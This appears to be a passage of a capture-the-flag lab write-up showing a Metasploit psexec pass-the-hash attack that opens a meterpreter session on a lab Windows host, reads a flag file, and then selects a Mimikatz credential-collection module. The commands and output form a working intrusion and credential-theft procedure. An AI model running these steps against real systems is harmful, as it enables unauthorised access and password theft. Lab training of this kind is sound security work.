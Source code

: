 ```bash

msf exploit(psexec) > set payload windows/meterpreter/bind_tcp

msf exploit(psexec) > exploit
[*] Started bind handler
[*] 172.28.5.25:445 - Connecting to the server...
[*] 172.28.5.25:445 - Authenticating to 172.28.5.25:445 as user 'PTH'...
[*] 172.28.5.25:445 - Selecting PowerShell target
[*] 172.28.5.25:445 - Executing the payload...
[+] 172.28.5.25:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (957487 bytes) to 172.28.5.25
[*] Meterpreter session 1 opened (172.16.222.134:41637 -> 172.28.5.25:4444) at 2017-11-03 21:24:00 -0400




meterpreter > cd ./Desktop
meterpreter > ls
Listing: C:\Users\PTH\Desktop
=============================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-10-30 16:12:31 -0400  desktop.ini
100666/rw-rw-rw-  38    fil   2017-10-30 16:43:03 -0400  flag.txt

meterpreter > cat flag.txt
HF-0cedb7f3b7ed038654e35a0245624b68
```

easydone.

### Mimikatz


>Now that you have access to 172.28.5.25 i need you to give me his password.
There is a powerfull tool called Mimikatz that does what you need.

>From now on Windows 10 and Windows Server 2016 are patched against this by default, however this is not the case on other version of windows.

```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(psexec) > search mimikatz

Matching Modules
================

   Name                                                 Disclosure Date  Rank    Description
   ----                                                 ---------------  ----    -----------
   auxiliary/admin/kerberos/ms14_068_kerberos_checksum  2014-11-18       normal  MS14-068 Microsoft Kerberos Checksum Validation Vulnerability
   post/windows/escalate/golden_ticket                                   normal  Windows Escalate Golden Ticket
   post/windows/escalate/golden_ticket                                   normal  Windows Escalate Golden Ticket
   post/windows/gather/credentials/sso                                   normal  Windows Single Sign On Credential Collector (Mimikatz)
   post/windows/manage/wdigest_caching                                   normal  Windows Post Manage WDigest Credential Caching


msf exploit(psexec) > use post/windows/gather/credentials/sso
```
